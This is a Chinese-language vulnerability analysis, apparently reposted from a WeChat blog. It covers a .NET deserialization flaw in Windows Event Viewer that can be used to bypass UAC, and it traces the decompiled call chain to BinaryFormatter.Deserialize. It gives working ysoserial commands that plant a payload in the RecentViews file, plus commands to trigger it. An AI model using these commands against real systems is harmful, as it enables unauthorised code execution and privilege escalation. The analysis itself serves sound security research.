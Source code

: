 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/A7Z720lavhNSjlNNc3nzng)

0x01 漏洞背景
=========

4 月 26 日 @Orange Tsai 在 Twitter 上发表一个有关 Windows 事件查看器的反序列化漏洞，可以用来绕过 Windows Defender 或者 ByPass UAC 等其它攻击场景，Orange 视频里也给出了攻击载荷 DataSet 

“

ysoserial.exe -o raw -f BinaryFormatter -g DataSet -c calc > %LOCALAPPDATA%\Microsoft\Eventv~1\RecentViews

”

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVc9y6LcTZ8yePD3vHpYDgtYTkibYEtzjKuakr0kE1hUKhObXsUPmPGr9A/640?wx_fmt=png)

0x02 漏洞复现
=========

@Orange Tsai 给出的 ysoserial DataSet 载荷因为笔者复现未成功，所以替换用 TypeConfuseDelegate 作为攻击载荷，%LOCALAPPDATA% 等同于 C:\Users \ 用户名 \ AppData\Local 目录，Eventv~1 代表目录名前 6 个字符 Eventv 开头的第 1 个目录，其实可指定为本地的 Event Viewer 文件夹，文件名一定得是固定的 RecentViews，至于为什么可以看后续的原理分析，ysoserial 生成攻击载荷命令如下，有个小小的建议：可以先打开一次事件查看器，便于操作系统创建 EventViewer 目录，否则执行 ysoserial 命令会抛出 "系统找不到路径" 错误

```
ysoserial.exe -o raw -f BinaryFormatter -g TypeConfuseDelegate -c calc > %LOCALAPPDATA%\Microsoft\Eventv~1\RecentViews

```

打开 Windows 事件查看器或者输入如下所示的命令行均可触发漏洞

```
cmd/c eventvwr.msc
cmd/c eventvwr.exe

```

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVcB2mANodZWo6XyQViboNIz9SlliaVYk742XfibibNjHic8wEic1goqajItuKg/640?wx_fmt=png)

0x03 调用链分析
==========

打开事件查看器 Windows 系统会启动 mmc.exe 去关联 eventvwr.msc，进中 mmc.exe 右击 ” 属性 “-> .NET 程序集 如下图所示

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVcwiawwHrYYFCpVART8NRgptpaFJAPhNYDwJMEJmukh2eT1PmnDAtMTkw/640?wx_fmt=png)

反编译 EventViewer.dll，笔者从 EventViewer 事件查看器核心代码入手，至于它继承的父类 FormView 及基类 View 不再跟进，EventViewerHomePage 类是主入口，实现基类 View 里的虚方法 OnInitialize，

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVcts4fMG0wJekBMZcpcKhqJmr1fkQ1R2I45j8yB8MicASJPkJJDCPjegg/640?wx_fmt=png)

接着对 EventHomeControl 类做了初始化， UpdateUIDelegate(this.UpdateUI) 表示 EventHomeControl 读取数据并加载数据到可视化 UI 界面

```
public EventHomeControl()
{
    this.InitializeComponent();
    UIControlProcessing.SetControlSystemFont(this);
    UIControlProcessing.SetControlTitleFont(this.eventViewerLabel, this.Font);
    this.updateUI = new EventHomeControl.UpdateUIDelegate(this.UpdateUI);
    this.enableControl = new EventHomeControl.EnableControlDelegate(this.EnableControl);
}

```

this.UpdateUI 方法对可视化操作选项做了多重判断，有更新事件列表、有更新日志摘要、有更新事件列表当前对应的进程信息、还有我们重点关注的 case 1 更新最近访问浏览的信息，进入 UpdateRecentViewsUI 条件分支

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVcFu9ZBsU1BKRNDdCJR7cibJKZWYnt54DT3RqPP4ibEoRS29XEAvIPyqOg/640?wx_fmt=png)

UpdateRecentViewsUI 方法调用了 UpdateRecentViewsListViewUI，并且将属性 RecentViewsDataArrayList 的值传递给此方法，如下图

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVcIvQ8xwIOybRSc1YuUhHkj917ibG1JNf7RHqHnrl51q7iaYMchT46ArLg/640?wx_fmt=png)

RecentViewsDataArrayList 属于 EventsNode 类的成员，数据来源自 LoadDataForRecentView 执行后的结果，这里是将 EventsNode.recentViewsDataArrayList 的值赋给了 RecentViewsDataArrayList 属性，代码如下

```
internal ArrayList RecentViewsDataArrayList
{
    get
  {
      this.LoadDataForRecentViews();
      return EventsNode.recentViewsDataArrayList;
  }
}

```

LoadDataForRecentView 方法再调用 LoadMostRecentViewsDataFromFile，

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVc0j6UiaaRFGlfxibP7RClk5rLTmdtmf5psKwZBfAnfiaFEYdibaNfB64Ricw/640?wx_fmt=png)

读取 EventsNode.recentViewsFile 流后用 Deserialize(fileStream) 去反序列化，再将集合赋给 recentViewsDataArrayList，这样正常情况 RecentViewsDataArrayList 就获取到了最近浏览的数据。代码如下

```
private void LoadMostRecentViewsDataFromFile()
{
   try
  {
  if (!string.IsNullOrEmpty(EventsNode.recentViewsFile) && File.Exists(EventsNode.recentViewsFile))
    {
    FileStream fileStream = new FileStream(EventsNode.recentViewsFile, FileMode.Open);
    object syncRoot = EventsNode.recentViewsDataArrayList.SyncRoot;
    lock (syncRoot)
    {
    EventsNode.recentViewsDataArrayList = (ArrayList)new BinaryFormatter().Deserialize(fileStream);
    }
    fileStream.Close();
  }
}catch (FileNotFoundException){}
}

```

再来细看下 EventsNode.recentViewsFile，整个定义在 EventsNode 类构造方法里分了 3 步，笔者个人觉得判断逻辑有些罗里吧嗦的 ![](https://res.wx.qq.com/mpres/htmledition/images/icon/common/emotion_panel/emoji_ios/u1F61D.png) 

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVcmfdwTiadDQTOD4z8VxIicvFvZgjTFiaa4YT4lTAvZDmB7y7O1ORTAl3Ew/640?wx_fmt=png)

第 1 步
-----

Environment.SpecialFolder.CommonApplicationData 在 Windows 系统里表示 "C:\Users \ 用户名 \ AppData\Roaming"，StandardStringValues 类自定义多个静态变量，如 MicrosoftFolderName 代表 "Microsoft", LIN_EventViewer 代表 "Event Viewer"；

第 2 步
-----

用 CommonApplicationData 替代 LocalApplicationData，LocalApplicationData 代表 "C:\Users \ 用户名 \ AppData\Local"；

第 3 步
-----

将前两步和 “RecentViews” 串起来，最终得到 recentViewsFile = ”C:\Users \ 用户名 \ AppData\Local\Microsoft\Event Viewer\RecentViews“，所以笔者在上小节复现的时候提到 RecentViews 文件名是固定的不能改。

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVc6rrpYmBGibkILD5LIJbSW4PibzQVg31x2bozB4xVRJpK7dMLUO0QAAWw/640?wx_fmt=png)

如上图 ysoserial 生成攻击载荷写入到 \Microsoft\Event Viewer\RecentViews，打开事件查看器即可触发漏洞。

0x04 结语
=======

漏洞的主体调用链如下  

```
-> View -> FormView -> EventViewerHomePage -> EventHomeControl -> UpdateUIDelegate(委托)
-> UpdateUI -> UpdateRecentViewsUI -> UpdateRecentViewsListViewUI -> RecentViewsDataArrayList
-> LoadDataForRecentView -> LoadMostRecentViewsDataFromFile -> BinaryFormatter().Deserialize

```

文章还可以在我的博客上在线阅读 https://www.cnblogs.com/Ivan1ee，涉及的 PDF 和 Demo 已打包发布在星球，欢迎对. NET 安全关注和关心的大伙加入我们

![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y83FZojRCRqoMsFLdwISWVcnHgiavyVJicWSXibAPzIdOqJrZ0c3icNNkpTUGnoHgf34K0c1AZlR4XINg/640?wx_fmt=jpeg)